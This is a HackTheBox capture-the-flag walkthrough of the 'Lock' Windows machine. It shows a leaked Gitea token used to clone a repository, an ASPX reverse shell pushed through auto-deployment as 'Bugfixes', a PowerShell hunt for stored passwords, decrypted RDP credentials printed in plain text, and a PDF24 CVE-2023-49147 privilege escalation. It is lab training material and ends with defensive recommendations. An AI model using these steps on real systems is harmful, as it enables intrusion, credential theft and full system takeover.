# Lock HackTheBox Walkthrough

This professional report outlines the complete exploitation process of the **Lock** target machine.  
The engagement covers Git repository abuse via Gitea, deployment-based remote code execution, credential recovery, and privilege escalation through an unpatched PDF24 vulnerability (CVE-2023-49147).

---

## 1. Initial Reconnaissance

A thorough network scan was conducted to identify all accessible services on the host `10.129.71.121`:

```bash
nmap -p- -Pn 10.129.71.121 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.71.121 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.71.121 -v --script vuln -oN nmap_vuln.txt
```



The scan revealed port **3000**, hosting a **Gitea web interface**, suggesting internal development repository access.

---

## 2. Gitea Repository Analysis

After exploring the Gitea interface, we located a public Python script named `repos.py` and downloaded it for inspection.



A review of the commit history exposed a **Personal Access Token (PAT)** left in a previous revision.


Using this token, we authenticated through the API and gained access to a **previously hidden repository**.



---

## 3. Gaining Access to the Website Repository

Using the recovered PAT, we cloned a repository belonging to `ellen.freeman`:

```bash
git clone http://43ce39bb0bd6bc489284f2905f033ca467a6362f@10.129.71.121:3000/ellen.freeman/website
```



The README indicated that changes pushed to the repository were **automatically deployed** to the live website.



This discovery enabled a direct **continuous deployment exploitation path**.

---

## 4. Exploiting Automatic Deployment via Reverse Shell

We obtained an **ASPX reverse shell** from:  
[https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)

We edited the script to set our callback IP and port, then committed and pushed it to the live branch:

```bash
git add .
git commit -m "Bugfixes"
git config --global user.email "you@example.com"
git config --global user.name "Your Name"
git push origin main
```



Visiting the deployed endpoint `http://<TARGET_IP>/shell.aspx` triggered the callback, resulting in a **reverse shell** connection.



---

## 5. Post-Exploitation & Credential Discovery

Once inside the web shell, we performed a recursive search to locate potential configuration and credential files:

```powershell
Get-ChildItem -Path C:\ -Recurse -Force -Include *.config,*.ini,*.xml,*.bak,*.txt -File -ErrorAction SilentlyContinue | Where-Object { $_.FullName -notmatch 'Windows' } | Select-String -Pattern "password=", "pwd=", "user="
```





The scan uncovered **mRemoteNG configuration files** containing encrypted credentials.

We decrypted them using the following tool:  
[https://github.com/gquere/mRemoteNG_password_decrypt](https://github.com/gquere/mRemoteNG_password_decrypt)



Decryption revealed valid **RDP credentials**:

```
Gale.Dekarios : ty8wnW9qCKDosXo6
```


---

## 6. User Access & Environment Enumeration

We connected via RDP using the recovered credentials and located the **user flag** on the desktop.

Further inspection revealed the presence of **PDF24 Creator**, an outdated PDF utility with a known privilege escalation vulnerability.



---

## 7. Privilege Escalation via PDF24 (CVE-2023-49147)

According to [PacketStorm Security Advisory](https://packetstorm.news/files/id/176206), **PDF24 Creator v11.15.1** can be exploited for **local privilege escalation**.

We downloaded the vulnerable version and executed the following commands to trigger the flaw:

```bash
SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r
msiexec.exe /fa .\pdf24-creator-11.15.1-x64.msi
```



When the `SetOpLock` was active, the Command Prompt opened under **SYSTEM context**.  
We followed the documented exploitation steps:

1. Right-click the CMD window top bar → **Properties**
2. Under **Options**, click **Legacy Console Mode**
3. Launch any browser except Edge or IE
4. Press **CTRL + O**
5. Enter `cmd.exe` and press **Enter**



This process opened a **SYSTEM-level shell**, granting administrative privileges.  
We successfully accessed the **root flag**.

---

## 8. Conclusion

This engagement demonstrates a complete end-to-end compromise of the **Lock** system — from developer repository abuse to full administrative control.

### Key Findings:
- Gitea repositories exposed sensitive access tokens.  
- Automatic deployment pipelines enabled arbitrary code execution.  
- Unencrypted remote management credentials were retrievable from configuration files.  
- Outdated third-party software (PDF24) provided privilege escalation.

### Security Recommendations:
- Enforce proper **secret management** and prevent tokens from being committed to repositories.  
- Disable or restrict automated deployments to verified users.  
- Store all credentials securely using encrypted vaults (e.g., Windows Credential Manager or Vault).  
- Regularly patch third-party applications such as PDF24 Creator.  
- Conduct regular internal audits to identify legacy or exposed software components.

---
